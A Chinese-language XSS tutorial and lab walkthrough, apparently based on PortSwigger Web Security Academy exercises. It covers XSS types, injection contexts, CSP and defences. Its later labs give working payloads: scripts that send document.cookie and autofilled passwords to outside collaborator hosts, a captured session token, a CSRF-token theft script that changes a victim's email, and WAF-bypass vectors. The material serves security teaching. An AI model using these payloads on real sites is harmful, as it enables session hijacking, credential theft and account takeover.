# Cross-site scripting

跨站脚本（通常称为  `XSS`）是一种网络安全漏洞。

将任意`Javascript`代码插⼊到其他Web用户页面⾥执行以达到攻击目的的漏洞。攻击者利用浏览器的动态展示数据功能，在HTML页面⾥嵌⼊恶意代码。

当用户浏览时，这些潜⼊在HTML中的恶意代码会被执行，用户浏览器被攻击者控制，从而达到攻击者的特殊目的

攻击者通过加载恶意的`JS`文件，当用户加载了恶意代码，攻击者可以与用户浏览器进行交互


## XSS 类型

我们一般用`alert`函数进行测试确认`XSS`漏洞

XSS 攻击主要有三种类型。它们是：

- 反射型 XSS，恶意脚本来自当前的 HTTP 请求，与后端服务器进行交互，经过服务器反射回来，不存储在服务器
- 存储型 XSS，恶意脚本来自网站的数据库或者文件，比反射型危害大
- 基于 DOM 的 XSS，漏洞存在于客户端代码而不是服务器端代码，不与服务器交互

## 反射型

反射型`XSS`，当网站在HTTP请求中接收数据，并以不安全的方式将该数据返回到即时响应中，就可能存在该漏洞

下面是一个反射型XSS漏洞的简单示例：

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```

如果网站不对输入的信息做任何处理，那么就很容易被攻击

```
https://insecure-website.com/status?message=<script>alert(1)</script>
```

如果用户访问了攻击者构造的 URL，那么攻击者的脚本就会在用户的浏览器中执行，在用户与应用程序的会话上下文中执行。

## 存储型

存储型`XSS`又叫做持久性`XSS`，它通常存储在服务端数据库和文件中，产生于服务器从不可信的来源接收数据，并且包含到后续的HTTP请求中

例如：一个博客的评论功能，评论会显示给其他用户

## DOM 型

基于 DOM 的 XSS（也称为` DOM XSS`）发生在应用程序包含一些客户端 `JavaScript `时，这些` JavaScript `以不安全的方式处理来自不可信来源的数据，通常是将数据写回 DOM

在以下示例中，应用程序使用一些` JavaScript `读取输入字段的值，并将该值写入 HTML 中的元素

```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

攻击者可以构造`search`，返回到` DOM `中

```js
You searched for: 
```

在典型情况下，输入字段会从 HTTP 请求的一部分填充，例如 URL 参数，攻击者使用恶意 URL 发起攻击，就像反射型 `XSS `一样

## XSS 所在上下文

测试`XSS`漏洞，首先需要确定输入内容的上下文位置，查看是否被编码或者过滤等

### XSS 在 HTML 标签之间

比如：labs中的前两个，需要再插入一个标签来执行`javascript`代码

```
<script>alert(document.domain)</script>

```

### XSS 在 HTML 标签属性中

1. 可以通过`">`进行闭合该标签，插入一个新的标签，例如：

```
"><script>alert(document.domain)</script>
```

2. 在尖括号被实体编码时，可以通过引入事件处理器添加一个新的属性。如：

通过闭合属性值，插入新的属性和值

```
" autofocus onfocus=alert(document.domain) x="
```

> 创建了一个 `onfocus` 事件，当元素获得焦点时会执行 `JavaScript`，同时添加了 `autofocus` 属性自动触发 `onfocus` 事件而无需任何用户交互。最后，它添加了 `x="` 来闭合后面的内容

常见的事件处理器：`onclick,onmousemove,onfocus`

3. 当 XSS 上下文位于锚标签（`<a>` 标签）的 `href` 属性中时，可以使用 `javascript:` 伪协议来执行脚本

```
<a href="javascript:alert(document.domain)">点击这里</a>
```

### XSS 在`JavaScript`中

即当输入的内容响应在`<script>`标签内，可能会出现各种各样的情况

#### 闭合`<script>`标签

例如：XSS 响应在下面的`input`变量

```javascript
<script>
...
var input = 'controllable data here';
...
</script>
```

那么，你可以闭合该标签，引入新的标签，如下：

```javascript
</script>
```

当浏览器解析 HTML 文档时，它会逐行读取并处理 HTML 标签，遇到 `<script>` 标签时，浏览器会执行其中的` JavaScript `代码。

#### 闭合字符串

同样这个例子

```javascript
<script>
...
var input = 'controllable data here';
...
</script>
```

通过闭合单引号，直接执行`JavaScript`代码

```javascript
'-alert(1)-'
';alert(1)//
```

有时，网站可能会转义单引号（在单引号前添加`\`），但是忽略了`\`（转义本身字符），这就可以让攻击者将网站添加的`\`转义成普通字符，还是可以闭合单引号

例如，输入：

```javascript
';alert(document.domain)//
```

网站转换为：

```javascript
\';alert(document.domain)//
```

再次输入：

```javascript
\';alert(document.domain)//
```

网站将其转换为：

```javascript
\\';alert(document.domain)//
```

这时候，转义符是普通字符，单引号闭合成功

#### 使用HTML编码

浏览器解析出响应中的HTML标记和属性时，它将在进一步处理标记属性值之前对其执行HTML解码

例子：

```javascript
<a href="#" onclick="... var input='controllable data here'; ...">
```

可以使用单引号的HTML编码绕过

```javascript
&apos;-alert(document.domain)-&apos;
```

## XSS 漏洞的利用

XSS漏洞常见的三种利用方法：

- 窃取 cookie
- 捕获密码
- 绕过 CSRF 保护

### 窃取 cookie

大多数 Web 网站使用 cookie 进行会话处理。利用XSS漏洞将受害者的 cookie 发送到自己的域，然后手动将 cookie 注入浏览器并冒充受害者

实际上，这种方法有一些显著的限制：

- 受害者可能没有登录
- `HttpOnly `标志，限制`JS`代码访问Cookie
- 会话可能会锁定额外的因素，比如用户的 IP 地址
- 会话被劫持之前就超时了

### 捕获密码

如今，许多用户使用密码管理器自动填充密码。你可以通过创建一个密码输入框，读取自动填充的密码，并将其发送到你的域名来利用这一点。

首要缺点是它只适用于使用密码管理器并执行密码**自动填充的用户**

### 绕过 CSRF 保护

XSS 允许攻击者几乎可以做任何合法用户可以在网站上做的事情。

通过在受害者的浏览器中执行任意` JavaScript`，XSS 允许你像受害者用户一样执行一系列操作

> 一些网站可以在不输入密码情况下来更改邮箱，它的传参：`csrf=token&email=test@test.com`
>
> 然后你发现了一个 XSS 漏洞（存在`Httponly`），那么可以尝试窃取 CSRF 令牌，最后利用令牌更改邮箱，重置密码拿到账户的权限

XSS 访问指定路由 --> 响应中匹配 CSRF 令牌 --> 构造HTTP请求，修改邮箱（条件苛刻）

## Content security policy(CSP)

CSP（`Content Security Policy`，内容安全策略）是一种浏览器安全机制，用于限制网页中可以加载和执行的资源（如脚本、样式、图片等），从而减少 XSS 和其他攻击的风险

> CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。
>
> CSP 大大增强了网页的安全性。攻击者即使发现了漏洞，也没法注入脚本，也没法抛送数据，除非还控制了一台列入了白名单的可信主机

参考：

https://kebingzao.com/2022/10/09/csp/

## 防御 XSS 漏洞

### 编码输出内容

在 HTML 上下文中，你应该将不在白名单的值转换为 HTML 实体：



在` JavaScript `字符串上下文中，非字母数字值应该进行` Unicode `转义：

 `<` 转换为: `\u003c` 

 `>` 转换为: `\u003e` 

### 验证输入内容

过滤输⼊的数据，包括`<>`，单引号，双引号等

### 其他

设置`Httponly`

SOP（同源策略）SOP把拥有相同主机名、协议和端⼝的⻚⾯视为同⼀来源。不同来源的资源之间交互是受到限制的

CSP（内容安全策略）白名单加载外部资源

## XSS 备忘录

生成`payload`

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## labs

### 反射型 XSS（初级）

查看源代码，知道`search`功能是提交表单的



该功能回显搜索内容到前端

输入`<h1>11</h1>`，解析了该标签



用`alert`函数弹个框

```js
<script>alert(1)</script>
```

### 存储型 XSS

这是一个博客评论的功能

```js
<script>alert(document.domain)</script>
```



### DOM - document.write

在搜索框随便输入，发现源代码中调用了`document.write`

```js
<script>
function trackSearch(query) {
     document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
</script>
```

> `window.location.search` 返回当前 URL 中的查询字符串部分（即 `?` 后面的内容）。`URLSearchParams` 用于解析这些查询参数，`get('search')` 方法提取名为 `search` 的参数值



闭合`img`标签

```js
"><h1>111</h1>
```



成功解析标签

构造弹窗

```js
"><svg onload=alert(1)>
```



### DOM - innerHTML

随便搜索内容，源代码找到`JS`代码，将search参数值直接插入html里

```js
<script>
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
</script>
```

payload

```js

```



### DOM - href

一个提交反馈的页面，有个back按钮，会根据`?returnPath=/post`进行 跳转



这里是a标签的`href`属性可控

相关的`JS`代码

```js
<script>
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
</script>
```

使用`javascript`协议就行

> 在浏览器中，`javascript:` 是一种 URL 协议，用于直接在地址栏或书签中执行 JavaScript 代码。这个协议允许用户在不需要创建完整的 HTML 页面或 JavaScript 文件的情况下，直接运行简单的脚本。

```js
javascript:alert(1)
```

点击back即可弹框



### DOM - hashchange

查看主页的源代码

```js
<script>
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
if (post) post.get(0).scrollIntoView();
});
</script>
```

当用户通过修改 URL 的哈希部分（如点击链接）来导航到页面的某个部分时，页面会自动滚动到相应的 `<h2>` 元素

`location.hash`就是获取当前 URL 的哈希部分（例如 `#example`），`slice(1)`就是移除哈希前面的 `#` 符号，`decodeURIComponent`进行`url`解码

访问`https://test.com/#example`，下面是`JS`解析的内容：

```js
var post = $('section.blog-list h2:contains('example')');
```

`jQuery `选择器查找包含特定文本的 `<h2>` 元素，`scrollIntoView`滚动到指定元素



在url后面加上`#The%20Art`，成功跳转到该标题



```js
#
```

发现可以成功弹窗



这个题目主要的知识点就是：jquery选择器内可以插入标签

最终payload

```js
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

首先，访问`https://YOUR-LAB-ID.web-security-academy.net/#`，等`iframe`加载完毕，触发`onload`事件，加载完成后动态地修改 `iframe` 的 `src` 属性

```
https://YOUR-LAB-ID.web-security-academy.net/#
```

这样hash就被修改了，因为`jquery`选择器内可以插入标签，`img`标签成功执行

### 反射 - `<>`被HTML编码

输入`<>`



被实体编码了，在页面中继续寻找我们输入的内容



在双引号里，闭合它，然后插入事件，`onclick，onmousemove`事件

```
"onclick="alert(1)"
"onmousemove="alert(1)"
```



### 存储 - 双引号被编码

双引号被编码，不能进行闭合

直接将内容放到href属性里，`javascript`协议绕过




### 反射 - `<>`被编码



找到我们输入的内容，在一个变量位置，单引号闭合

字符串和`alert(1)`进行运算，`alert`也会执行：`"111"+alert(1)+"222"`

```
'+alert(1)+'
'-alert(1)-'
```



### DOM - document.write（中级）

找到下面代码



**获取查询参数**：

```
var store = (new URLSearchParams(window.location.search)).get('storeId');
```

这行代码使用 `URLSearchParams` 对象从当前页面的 URL 中获取 `storeId` 查询参数的值

例如，如果 URL 是 `https://example.com?storeId=Paris`，那么 `store` 变量的值将是 `"Paris"`

判断是否存在，执行`document.write`函数，`store`参数可控，闭合`</option>或者</select>`标签

```javascript
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

```javascript
1</option><script>alert(1)</script>
```



```javascript
"></select>
```




### DOM - AngularJS 表达式

尖括号被实体编码



发现使用了`angularJs`

在搜索框中输入以下`AngularJS`表达式：

```javascript
{{$on.constructor('alert(1)')()}}
```

### 反射-DOM XSS

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
};
```
`searchResults.js` 文件，`JSON `响应被用于一个 `eval()` 函数调用

闭合`json`数据，注释后面的内容，使用算法运算符调用`alert`

```javascript
\"-alert(1)}//
```

### 存储-DOM XSS

加载`loadComments`函数

```javascript
<script>loadComments('/post/comment')</script>
```



漏洞在`escapeHTML`函数，只是替换`<>`一次，别没有迭代替换

而在下面两处代码，调用了`escapeHTML`函数

```javascript
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
firstPElement.innerHTML = newInnerHtml

let commentBodyPElement = document.createElement("p");
commentBodyPElement.innerHTML = escapeHTML(comment.body);
commentSection.appendChild(commentBodyPElement);
```

这里直接插入标签

```javascript
<>
```



### 窃取 Cookie

payload

```javascript
<script>
fetch('https://8mvhmouenn8vk8o4mu6k25jngem5a6yv.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

```javascript
<script>
    img = '';
    document.write(img);
</script>
```

```javascript
<script>
document.location='https://mxnvx25sy1j9vmzix8hydju1rsxjlaby0.oastify.com?cookie='+document.cookie;
</script>
```





```javascript
session=g98hGU3stsVnDsvyhC3FsO7aTmCMYFau
```

### 捕获账户密码

payload

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://9isiipqfjo4wg9k5iv2ly6focfi66x1lq.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

当有人在输入框输入账号密码,触发`onchange`事件，``onchange`事件会把账号密码发送到别人服务器



### 利用XSS绕过CSRF防御

在修改邮箱功能处存在`csrf token`



博客评论区存在存储型XSS漏洞

构造一个请求，访问`/my-account`路由，匹配出token



然后，构造修改邮箱的请求。当别人查看评论区时，将会修改邮箱

payload，将邮箱更改为`test@test.com`

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

`XMLHttpRequest`完成时，触发`onload`事件

### FUZZ标签和属性

本实验包含搜索功能中的反射XSS漏洞，但使用Web应用程序防火墙（WAF）来防御常见XSS

首先，fuzz一下标签，使用XSS备忘录中的标签和属性



`body`标签可以使用



然后，fuzz一下事件



payload

```javascript
<body onresize=alert(1)>
```

`onresize`在窗口大小改变时触发

这里自己是可以触发了，现在开始让别人也触发

使用`iframe`标签，通过`onresize`事件改变窗口大小

```javascript
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

当` iframe `中的文档完全加载并解析完毕之后，才会触发`onload`改变窗口大小，触发`onresize`事件。最终，完成一个反射型的XSS

插入到自己服务器上`/exploit`，访问一下可以成功触发`print`



### 自定义标签

本实验将阻止除自定义标记外的所有HTML标签

自定义一个XSS标签，通过`#`号来聚焦该标签，触发`onfocus`事件

元素会按 `tabindex` 的值来排序，较小的值会优先获取焦点。例如，`tabindex="1"` 的元素会在 `tabindex="2"` 的元素之前获得焦点

```javascript
<xss id=x onfocus=alert(document.cookie) tabindex=1>
```

`tabindex`是正整数，可以使用`Tab`键来聚焦

然后在URL后面添加`#x`触发它

```javascript
<script>
location="https://0ad800e30454a13b80f7033000430017.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1#x"
</script>
```



然后按Tab键，或者在后面添加`#x`



在自己服务器上添加



### FUZZ标签和事件

首先也是进行fuzz标签



fuzz事件



payload

```javascript
<svg><animatetransform onbegin=alert(1)>
```

### link 标签

`accesskey` 属性用于定义一个快捷键，以便于用户用键盘快速访问特定元素

```
'accesskey='x'onclick='alert(1)
```

单引号闭合



触发按键

```
Windows: ALT+SHIFT+X
MacOS: CTRL+ALT+X
Linux: Alt+X
```

rel属性为`canonical`

```
<link rel="canonical" accesskey='x' onclick='alert(1)'>
```

### 转义单引号

首先随便输入内容：`1122`



想到闭合单引号，用运算符执行函数：`'-alert(1)-'`



单引号被转义了

直接闭合`<script>`标签

```
</script><script>alert(1)</script>
```

### 转义单引号 html编码



这里它会实体化尖括号和双引号，转义单引号

payload

```
\'-alert(1)//
```

我们时输入的内容是：`\'-alert(1)//`，后端在单引号前面又加一个`\`，这样单引号就闭合了，最后就是：`\`

后面的就是单行注释符号，注释后面的内容（这里是因为后端转义字符有问题，不应该只是在单引号前面添加`\`）

### HTML实体编码绕过



查看源代码，网站字段回显

同样转义单引号



测试上一关的payload，这里就不行了，在`\`和`'`前面都会添加转义符号



实体编码绕过，payload

```
http:://www.baidu.com?&apos;-alert(1)-&apos;
```



成功闭合，点击弹窗

### 模板字符串注入

在`JavaScript`中，反引号用于定义模板字符串（`template literals`）

模板字符串允许使用 `${expression}` 的语法在字符串中插入变量或表达式

```javascript
const name = "Alice";
const greeting = `Hello, ${name}!`; // 输出 "Hello, Alice!"
```

在这个实验中，输入的内容在反引号内



插入表达式即可

```javascript
${alert(document.domain)}
```

参考：

https://xz.aliyun.com/news/11803

https://blog.csdn.net/kui576/article/details/146340871
